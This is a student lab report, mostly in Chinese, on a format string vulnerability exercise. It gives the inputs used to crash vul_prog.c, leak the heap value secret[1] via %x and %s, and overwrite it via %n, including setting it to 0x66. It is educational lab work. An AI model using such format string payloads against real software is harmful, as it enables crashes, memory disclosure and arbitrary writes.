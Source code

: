 # **Lab 2.4** Format String Vulnerability

### 1 创建并编译程序

![Screenshot 2023-06-09 at 20.11.13](/Users/yujie/Library/Application Support/typora-user-images/Screenshot 2023-06-09 at 20.11.13.png)

![Screenshot 2023-06-09 at 20.12.50](/Users/yujie/Library/Application Support/typora-user-images/Screenshot 2023-06-09 at 20.12.50.png)

## 2 完成任务

**malloc**动态申请的**secret**变量存在**堆**中；用户通过**scanf**输入的**user_input**和**int_input**由系统自动分配内存，存在**栈**中，用户输入就是一个**push**的过程。

**printf**将参数从右到左**push**，然后从左到右遍历字符串，每遇到一次`%`格式化输出就**pop**一次。所以可以利用这个漏洞。

### 2.1 Crash the program named "vul_prog.c".

数字随意输入，字符串输入大量格式化输出符号，使得**printf**不断**pop**，从而产生段错误。

```c
%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s
```

<img src="/Users/yujie/Library/Application Support/typora-user-images/image-20230609204334204.png" alt="image-20230609204334204" style="zoom:50%;" />

### 2.2 Print out the secret[1] value.

可以利用输入的**int_input**，作为**secret[1]**的地址，去获取值。

#### 2.2.1 找到**int_input**在栈中的位置。

输入一个确定值10，十六进制为a，不断输入%x确定10的位置为第九个：

<img src="/Users/yujie/Library/Application Support/typora-user-images/image-20230609205238009.png" alt="image-20230609205238009" style="zoom:50%;" />

#### 2.2.2 输出secret[1]的值

```c
// secret[1]地址的十进制
1449435556
// 格式化输出，第九个为%s
%x,%x,%x,%x,%x,%x,%x,%x,secret[1]:%s
```

<img src="/Users/yujie/Library/Application Support/typora-user-images/image-20230609210209620.png" alt="image-20230609210209620" style="zoom:50%;" />

**结果为U**

### 2.3 Modify the secret[1] value.

使用%n将已经输入的字符个数赋值给目标地址。

```c
// secret[1]地址的十进制
1449443748
// 赋值为前面字符的个数（36个，0x24）
%x%x%x%x%x%x%x%x%n
```

![image-20230609210701591](/Users/yujie/Library/Application Support/typora-user-images/image-20230609210701591.png)

### 2.4 Modify the secret[1] value to a pre-determined value.

通过2.3的方法，将secret[1]设置为**0x66**

```c
// secret[1]地址的十进制
1448853924
// 赋值为0x66，即要添加 0x66 - 0x24 = 66 个字符
%x%x%x%x%x%x%x%x012345678901234567890123456789012345678901234567890123456789012345%n
```

<img src="/Users/yujie/Library/Application Support/typora-user-images/image-20230609211005626.png" alt="image-20230609211005626" style="zoom:50%;" />